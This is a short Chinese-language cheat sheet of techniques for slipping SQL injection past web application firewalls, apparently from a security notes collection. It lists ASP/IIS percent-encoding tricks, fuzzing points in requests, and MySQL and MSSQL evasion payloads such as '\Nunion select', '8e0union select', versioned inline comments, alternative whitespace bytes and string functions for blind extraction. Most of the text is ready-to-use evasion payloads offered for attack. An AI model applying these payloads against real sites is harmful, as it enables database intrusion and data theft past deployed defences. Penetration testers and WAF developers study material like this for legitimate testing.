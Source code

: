 `WAF类型`

`根据WEB应用程序特性进行Waf绕过`
    
Web应用层
    
web容器层
    
    % 绕过   asp+iis   即s%elect
    
    %u 特性  asp（x）+ iis   select=s%u006c%u0006ect
    
    apache
    除了使用以上Web容器的特性绕过还可以手工Fuzz Waf
    具体Fuazz如下:
    get请求处 
    header请求处 
    post urlencode内容处 
    post form-data内容处
    
数据库交互层
        
        \Nunion的形式 userid=\Nunion select 
        
        浮点数的形式如1.1,8.0  userid=1.1union select
        
        8e0的形式 userid=8e0union select
        
        利用/*!50000*/的形式 userid=1 un/*!*/ion /*!50000select*/
        
        Mysql中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0；
        Mssql中可以利用的空白字符有:01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
        字符串截取函数 
        Mid(version(),1,1)
        Substr(version(),1,1)
        Substring(version(),1,1)
        Lpad(version(),1,1)
        Rpad(version(),1,1)
        Left(version(),1)
        reverse(right(reverse(version()),1)
        字符串连接函数
        concat(version(),'|',user());
        concat_ws('|',1,2,3)
        字符串转换
        Char(49)
        Hex(‘a’)
        Unhex(61)
   MSSQL
        
        可以使用内联注释/**/    
        :号 and:substring()
        %2b号 and%2b
        字符串截取函数
        Substring(@@version,1,1)
        Left(@@version,1)
        Right(@@version,1)
        字符串转换函数
        Ascii(‘a’) 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
        Char(‘97’)
        
